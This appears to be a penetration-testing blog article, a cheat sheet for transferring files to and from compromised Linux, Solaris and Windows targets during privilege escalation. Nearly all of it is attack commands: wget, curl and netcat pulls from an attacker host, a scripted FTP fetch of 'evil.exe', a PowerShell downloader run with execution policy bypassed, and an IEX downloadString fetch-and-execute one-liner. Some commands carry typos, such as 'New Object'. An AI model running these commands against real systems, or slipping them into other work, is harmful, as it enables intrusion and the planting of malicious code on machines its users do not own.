 ```yaml
---
layout: single
title: '<span class="Articles"> Transfering data W|L - /Articles</span>'
excerpt: "while you are trying to privilage escalating you might need to know how to transfer archives or binaries "
date: 2023-04-26
header:

  teaser_home_page: true



categories:

  - article
  - web
  - files
tags:  
  - windows
  - Solaris
  - linux
toc: true
toc_label: "Content"
toc_sticky: true
show_time: true
---
```



while you are trying to privilage escalating you might need to know how to transfer archives or binaries
i recommend you to execute ```which``` before you try the following binaries in order to know ```which``` binaries are available in our machina; in the target machine 

examples

## Solaris and Linux

# Rsync

```rsync -az source destination```
# Python

```php
Python SimpleHTTPServer
```

```on Attacker```
```bash
python -m SimpleHTTPServer 80
```

```on target```
```bash
wget <attackerip>:80/filename
```



# Apache

```on Attacker```

```bash
cp filetoYouWantsend.txt /var/www/html
service apache2 start
```

```on target```
```bash
wget http://attackerip/file
```
```bash
curl http://attackerip/file > file
```
```bash
fetch http://attackerip/file  ```on BSD```
```


# Netcat

```Listen on your own machine```
```php
nc -lvp 4444 > file
```
```send to the Target machine```
```bash

nc <kali_ip> 4444 < file
```



# Netcat + Python


```on Attacker```
```bash
python -m http.server 90
```
```on target```

```wget <attackerip>:90/filename```



# Netcat 


```Listen on your own machine```

nc -lvp 4444 > file

```on target, wait for the file```
nc -nvlp 55555 > file

```on kali, push the file```
nc $victimip 55555 < file


----------------------

## God to know Linux|Solaris:

```To send the executable file to your machine```:

```bash
base64 executable
# copy the output
# paste it in a file called file.txt
# decode it and create the executable
base64 -d file.txt > executable
```
## Windows 


# TFTP
```Windows XP and Win 2003 contain tftp client. Windows 7 do not by default```
```tfpt clients are usually non-interactive, so they could work through an obtained shell```

atftpd --daemon --port 69 /tftp
Windows> tftp -i 192.168.30.45 GET nc.exe



FTP (pyftpdlib client on Kali)
```Ftp is generally installed on Windows machines```

# To make it interactive, use -s option

```On Parrot install a ftp client and set a username/password```

```bash
apt-get install python-pyftpdlib  
python -m pyftpdlib -p 21
```

```on Windows```

```bash
ftp <attackerip>
> binary
> get exploit.exe
```


# FTP (pureftpd client on parrot)

```on your own machine ```

```bash
 install ftp client

$ apt-get install pure-ftpd

 create a group

$groupadd ftpgroup

 add a user

$ useradd -g ftpgroup -d /dev/null -s /etc ftpuser

Create a directory for your ftp-files (you can also specify a specific user e.g.: /root/ftphome/zek).

$ mkdir /root/ftphome

 Create a ftp-user, in our example "zek" (again you can set "-d /root/ftphome/zek/" if you want to).

$ pure-pw useradd zek -u ftpuser -g ftpgroup -d /root/ftphome/
 Update the ftp database after adding our new user.

$ pure-pw mkdb

 change ownership of the specified ftp directory (and all it's sub-direcotries) 

$ chown -R ftpuser:ftpgroup /root/ftphome

 restart Pure-FTPD
 
$ /etc/init.d/pure-ftpd restart
```

```On Windows target machine```

```bash
echo open <attackerip> 21> ftp.txt
echo USER username password >> ftp.txt
echo bin >> ftp.txt
echo GET evil.exe >> ftp.txt
echo bye >> ftp.txt
ftp -s:ftp.txt
```



# Powershell
```bash 
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://<attackerip>/powerup.ps1" >>wget.ps1
echo $file = "powerup.ps1" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```


# Powershell download a file
```bash
powershell "IEX(New Object Net.WebClient).downloadString('http://<targetip>/file.ps1')"
```

